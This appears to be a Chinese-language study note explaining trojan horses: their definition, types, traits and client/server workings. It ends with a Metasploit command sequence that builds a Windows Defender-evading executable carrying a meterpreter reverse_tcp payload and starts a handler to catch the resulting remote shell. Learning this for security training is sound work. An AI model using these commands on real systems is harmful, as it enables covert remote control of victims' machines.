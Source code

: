 ## 木马的由来
- 木马是“特洛伊木马”（trojan horse）的简称，据说这个名称来源于希腊神话《木马屠城记》。
- 如今黑客程序借用其名，有“一经潜入，后患无穷”之意。

## 木马的定义
- 在计算机系统中，“特洛伊木马”指系统中被植入的、人为设计的程序，目的包括通过网络远程控制其他用户的计算机系统，窃取信息资料，并可恶意致使计算机系统瘫痪。

## 木马的危害
- 根据传统的数据安全模型的分类，木马程序的企图可以对应分为三种：
  - 试图访问未授权资源
  - 试图阻止访问
  - 试图更改或破坏数据和系统

## 木马的分类
- 从木马所实现的功能角度可分为：
  - 破坏型
  - 密码发送型
  - 远程访问型
  - 键盘记录木马
  - DoS攻击木马
  - 代理木马
  - FTP木马
  - 程序杀手木马
  - 反弹端口型木马

## 木马的特点
- 一个典型的特洛伊木马（程序）通常具有以下四个特点：
  - 有效性
  - 隐 性
  - 顽固性
  - 易植入性

## 木马的特点
- 此外，木马还具有以下辅助型特点：
  - 自动运行
  - 欺骗性
  - 自动恢复
  - 功能的特殊性

## 木马实现原理
- 本质上说，木马大多都是网络客户/服务（Client/Server） 程序的组合。
- 常由一个攻击者控制的客户端程序和一个运行在被控计算机端的服务端程序组成。

- 当攻击者要利用“木马”进行网络入侵，一般都需完成如下环节：
  - 向目标主机植入木马
  - 启动和隐藏木马
  - 服务器端（目标主机）和客户端建立连接
  - 进行远程控


## 病毒木马分析网站
- https://www.virustotal.com/gui/



## 使用eavsion模块规避防火墙
```shell
search evasion
use evasion/windows/windows_defender_exe
show options		# 查看配置
set FILENAM [生成的文件名]
set payload windows/meterpreter/reverse_tcp		# 设置payload，也就是攻击载荷
set LHOST [MSF主机上的IP地址]
set LPORT [MSF主机上的端口号]
run

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp		# 设置payload，也就是攻击载荷
set LHOST [MSF主机上的IP地址]
set LPORT [MSF主机上的端口号]
run		
```